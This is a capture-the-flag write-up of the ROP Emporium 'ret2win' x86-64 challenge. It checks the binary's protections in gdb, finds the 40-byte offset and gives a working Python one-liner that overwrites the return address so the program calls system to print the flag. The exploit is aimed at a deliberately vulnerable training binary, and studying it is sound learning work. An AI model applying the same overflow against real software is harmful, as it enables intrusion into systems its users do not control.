 
### ret2win x86 64

Run the binary will see following message.

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

It also tells us that there is a function named ret2win and will cat the flag.txt. Therefore,  we only need to overwrite the return address to the address of the syscall in ret2win function.
Use gdb to gather information.
```
gdb ./ret2win
```
Check the security of ret2win.
```
gdb$ checksec

```
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
No canary, no pie.
List all functions.
```
gdb$ info functions
```
```
...
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
...
```
There is indeed a function called ret2win.
Disassemble ret2win to obtain the return address.
```
gdb$ disas ret2win 
```
```
...
0x0000000000400764 <+14>:    mov    edi,0x400943
0x0000000000400769 <+19>:    call   0x400560 <system@plt>
...
```
The address of the syscall is 0x0000000000400764.
Overflow length will be 32 bytes(buffer) + 8 bytes (RBP) = 40 bytes.
Therefore, the overflow strings will be:
```
A'*40+'\x64\x07\x40\x00\x00\x00\x00\x00'
```
Run the process with overflow strings:
```
python2 -c "print 'A'*40+'\x64\x07\x40\x00\x00\x00\x00\x00'" | ./ret2win
```
It will show the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
